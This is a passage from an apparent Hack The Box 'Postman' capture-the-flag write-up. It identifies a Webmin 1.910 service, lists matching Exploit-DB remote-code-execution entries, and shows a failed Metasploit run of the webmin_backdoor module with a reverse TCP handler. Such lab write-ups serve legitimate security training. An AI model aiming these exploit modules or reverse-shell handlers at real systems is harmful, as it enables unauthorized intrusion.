 ## Webmin

Webmin is a web-based system configuration tool. As shown below, HTTPS is needed to connect to the port 10000.

![](/assets/images/htb-writeup-postman/webmin1.png)

![](/assets/images/htb-writeup-postman/webmin2.png)

The nmap scan I ran earlier already discovered the webmin version used on the system from the `Server` header: `MiniServ/1.910`

Based on Exploit-DB, I saw see there are multiple exploits available for this version:

```
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)
Webmin 1.920 - Remote Code Execution
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)
```

The Metasploit module for version 1.920 only works for the backdoored version of Webmin and doesn't work here on this box:

```
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.10.14.20:4444 
[-] Exploit aborted due to failure: not-vulnerable: Set ForceExploit to override
[*] Exploit completed, but no session was created.
```
